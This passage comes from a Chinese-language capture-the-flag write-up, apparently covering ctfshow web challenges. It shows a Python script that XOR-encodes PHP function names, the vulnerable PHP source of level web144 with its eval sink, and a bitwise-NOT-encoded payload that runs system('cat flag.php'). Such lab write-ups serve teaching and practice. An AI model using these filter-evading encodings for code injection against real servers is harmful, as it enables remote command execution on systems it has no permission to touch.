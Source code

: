 ```python
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```

php运行后生成一个txt文档，包含所有可见字符的异或构造结果。
接着运行python脚本即可。
运行结果

```shell
[+] your function：system
[+] your command：ls
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08"^"%60%7b");
```

## web144

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

没什么变化，主要就是v2,v3换了个位置，对v3加了个check过滤，要求长度为1

payload

```shell
?v1=1&v3=1&v2=*(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F);
```



## web145
